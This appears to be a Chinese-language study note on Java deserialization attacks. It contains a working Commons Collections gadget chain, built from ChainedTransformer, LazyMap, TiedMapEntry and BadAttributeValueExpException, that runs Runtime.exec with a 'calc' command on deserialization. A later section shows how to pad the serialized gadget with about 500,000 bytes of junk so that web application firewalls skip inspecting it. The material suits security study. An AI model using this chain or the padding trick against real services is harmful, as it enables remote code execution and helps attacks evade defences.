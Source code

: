 ![image-20220316155807311](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220316155807311.png)

```java
public static void main(String[] args) throws Exception{




        Transformer[] transformers= new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer Chainedtransform = new ChainedTransformer(transformers);

        HashMap<Object,Object> map=new HashMap<Object, Object>() ;

        Map lazyMap = LazyMap.decorate(map, Chainedtransform);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);

        Class<? extends BadAttributeValueExpException> badAttributeValueExpExceptionClass = badAttributeValueExpException.getClass();
        Field val = badAttributeValueExpExceptionClass.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);
        
        SerializeTest.serialize(badAttributeValueExpException);
        UnSerializeTest.unserialize("C:\\Temp\\test.bin");
        
    }
```







### 为gadget添加大量垃圾数据

大多数WAF受限于性能影响，当request足够大时，WAF可能为因为性能原因作出让步，超出检查长度的内容，将不会被检查。

参考https://mp.weixin.qq.com/s/wvKfe4xxNXWEgtQE4PdTaQ

通过ArrayList添加大量垃圾数据进去,因为ArrayList的`readObject`方法存在会对List中的每一项除了transient(暂时的)的所有数据序列化,所以可以利用ArrayList实现简单的垃圾数据添加

```java
ArrayList arrayList = new ArrayList();
        StringBuilder sb=new StringBuilder();
        for(int i=0;i<500000;i++){
            sb.append("a");
        }
        arrayList.add(sb);
        arrayList.add(priorityQueue);
        SerializeTest.serialize(arrayList);
```

![image-20220330231216877](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220330231216877.png)

生成的序列化流也十分`壮观`,鼠标滚了半天
